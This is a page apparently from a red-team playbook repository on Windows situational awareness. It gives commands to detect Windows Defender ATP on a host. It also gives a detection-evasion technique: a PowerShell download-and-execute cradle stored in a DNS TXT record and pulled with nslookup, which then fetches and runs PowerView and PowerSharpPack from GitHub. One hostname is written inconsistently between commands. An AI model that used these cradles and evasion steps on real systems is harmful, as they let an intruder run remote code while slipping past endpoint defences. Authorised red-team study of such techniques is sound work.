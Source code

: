 # 5.2 Situational Awareness

## Table of Contents

- [Windows Advanced Threat Protection (ATP)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Windows-Advanced-Threat-Protection-(ATP))
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md#Avoid-Invoke-Expression-
(IEX)-and-Invoke-WebRequest-(IWR))

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```c
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```c
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```c
C:\> tasklist | findstr /i mssense.exe
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

### Previous

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)

### Next

- [6 Command-and-Control](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/6-Command-and-Control/6-Command-and-Control.md)

